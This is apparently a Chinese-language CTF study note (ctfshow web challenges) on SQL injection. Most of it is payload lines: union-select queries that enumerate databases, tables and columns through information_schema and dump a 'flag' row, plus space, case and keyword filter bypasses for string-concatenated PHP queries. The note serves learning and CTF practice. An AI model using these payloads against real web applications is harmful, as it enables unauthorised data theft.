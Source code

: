 # sql注入学习1

<br>


## 第一步：判断注入类型

<br>

* 数字型: 使用 1 and 1=2和1 and 1=1来判断(如果没报错，那就不是数字型注入)
* 字符型： 试试可能的闭合符   '    "    ')    ")

<br>

## 第二步: 联合查询前写入语句

<br>

* 可能的闭合符   '  "  ')  ")
* 不需要的语句可以用注释符号 --+  #  %23 --%0c注释掉
* 使用group by 或者Order by 确定数据列数量:id=-2'group by 4--+
* 查找回显位:使你提交的结果能够在页面上给你体现出来 使用语句?id=-2'union select 1,2,3--+(回显的内容的数字就可以知道是哪个位置了)

<br>

## 第三步: 查询库 表 列
* 查找库名:?id=-2'union select 1,2,database()--+ (三号位就是苦库的名）
* 查找表名:id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+(这段话用于在总表information_schema中查找database()的库所对应的table_name，也就是显示这个库中所有的表名。而group_concat则可以把这些表拼接起来)
* 查找列名:id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() --+(原理几乎同上)

## 第四步：查询数据库
* -2'union select * from ctfshow_web.ctfshow_user where username = 'flag' --+ （在名为ctfshow_web的库里找到名为ctfshow_user的表，并且从中寻找列名username的值为flag的数据）

<br>

# 特别的绕过方式
* replace(username,'f','g'),使用改名使得flag绕过preg_match(只能对返回值过滤进行绕过)
* 空格绕过： %0a %0d %0c /**/ + 
* 换行绕过空格： %0b（用于空格绕过都不成功的情况）

<br>

## 一些更简洁的可以参考的playload
* 1'%0aunion%0asElect%0a1,2,%0agroup_concat(password)%0afrom%0actfshow_user%23
* -1'%0cor%0cusername='flag


<br>

## waf绕过
* 大小写



<br>


## 基于原题下手的绕过
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
* 这段代码我们可以利用拼接来进行绕过
* 管道符-1'||username='flag
* 管道符-1'||(username)like'%fla%







ctfshow-web183

<br>